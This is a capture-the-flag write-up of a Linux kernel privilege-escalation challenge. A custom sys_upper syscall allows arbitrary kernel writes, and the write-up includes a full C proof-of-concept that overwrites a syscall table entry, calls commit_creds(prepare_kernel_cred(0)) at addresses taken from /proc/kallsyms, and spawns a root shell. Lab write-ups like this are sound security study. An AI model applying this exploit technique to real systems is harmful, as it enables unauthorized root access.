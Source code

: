 # syscall writeup by agam ^_^

### In the given syscall.c code, we can see that they add a new syscall named sys_upper to the syscall_table. This syscall essentially converts any string of lowercase to uppercase.

```c
static int __init initmodule(void ){
	sct = (unsigned int**)SYS_CALL_TABLE;
	sct[NR_SYS_UNUSED] = sys_upper;
	printk("sys_upper(number : 223) is added\n");
	return 0;
}
```
# INDEED? :D


### By inspecting the syscall code further, we can see that essentially, any user has read/write permissions in the kernel, indicated by a 0x20 offset ☠.
```c
asmlinkage long sys_upper(char *in, char* out) {
	int len = strlen(in);
	int i;
	for(i=0; i<len; i++){
		if(in[i] >= 0x61 && in[i] <= 0x7a){
			out[i] = in[i] - 0x20;
		}
		else{
			out[i] = in[i];
		}
	}
	return 0;
}
```

## On the host, we can see that the kernel module has already been loaded.
```bash
$ lsmod
m 663 0 - Live 0x7f000000 (PO)

$ cat /proc/kallsyms | grep sys_upper
7f000000 t sys_upper    [m]
```

## To gain privileges, we need to change the process privileges and commit them. This can be achieved with this line of code:
```c
commit_creds(prepare_kernel_cred(0))
```

### Where "prepare_kernel_cred" is a func that creates a struct which represents the credentials of a process in the kernel. By passing 0 as an argument, you're essentially asking the kernel to prepare credentials for root. This function allocates and initializes a cred structure with elevated privileges.
```c
struct cred *prepare_kernel_cred(struct task_struct *daemon)
{
	const struct cred *old;
	struct cred *new;

    ...

	old = get_task_cred(daemon);

	*new = *old;
	new->non_rcu = 0;
	atomic_long_set(&new->usage, 1);
	get_uid(new->user); 
	get_user_ns(new->user_ns);
	get_group_info(new->group_info);

    ...
}
``` 

 And **"commit_creds"** is a function that is used to replace the credentials of the current process with the credentials provided as an argument. It effectively changes the process's security context. By passing the result of prepare_kernel_cred(0) as an argument to commit_creds(), you're replacing the current process's credentials with those of the root privileges.

## since there isn't kalsr, Let's check the addresses of those functions inside of /proc/kallsyms:
```bash
$ cat /proc/kallsyms | grep sys_call_table
    >>> 8000e348 T sys_call_table <<<
```
```bash
$ cat /proc/kallsyms | grep prepare_kernel_cred
    >>> 8003f924 T prepare_kernel_cred <<<
    80447f34 r __ksymtab_prepare_kernel_cred
    8044ff8c r __kstrtab_prepare_kernel_cred
```
```bash
$ cat /proc/kallsyms | grep creds
    8003f3d8 T override_creds
    8003f44c T prepare_creds
    8003f51c T revert_creds
    >>> 8003f56c T commit_creds <<<
```

# Let's make the exploit poc!
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <unistd.h>
#include <sys/syscall.h>

// 8000e348 T sys_call_table
#define SYS_CALL_TABLE       ((void**)0x8000e348) // 0x [80] [00] [e3] [48] -> 
#define COMMIT_CREDS         0x8003f56c // 0x [80] [03] [f5] [6c] -> "\x8c\xf5\x03\x80";
#define PERPARE_KERNEL_CREDS 0x8003f924 // 0x [80] [03] [f9] [24] -> "\x24\xf9\x03\x80";

#define SYS_UPPER            223


long get_root_privlleges_process(void* (*prepare)(void*), int (*commit)(void*) )
{
    return commit(prepare(NULL));
}

int main() 
{

    unsigned int** sct;
    sct = (unsigned int**)SYS_CALL_TABLE;
    printf("[+] get_root_privlleges_process func addr: %p\n", get_root_privlleges_process);

    // store pointer to get_root_privlleges_process
    uint8_t sys_root_ptr[sizeof(void*) + 1] = {0};
    *(void**)sys_root_ptr = (void*)get_root_privlleges_process;

    printf("[+] sys_root_ptr: %p\n", sys_root_ptr);
    printf("[+] sys_upper addr: %p\n", SYS_CALL_TABLE + SYS_UPPER); 

    // override SYS_UPPER syscall functionality to our get_root_privlleges_process func
    syscall(SYS_UPPER, sys_root_ptr, &sct[SYS_UPPER]);
    puts("changed sys_upper to sys_root_ptr :D");
    
    void *commit  = (void*)COMMIT_CREDS;
    void *prepare = (void*)PERPARE_KERNEL_CREDS;

    printf("[+] commit: %p\n[+] prepare: %p\n", commit, prepare);
    // call our new syscall with the memory address of commit and prepare
    syscall(SYS_UPPER, prepare, commit);

    //      goal
    // ----------------
    system("/bin/sh");

    return 0;
}
```
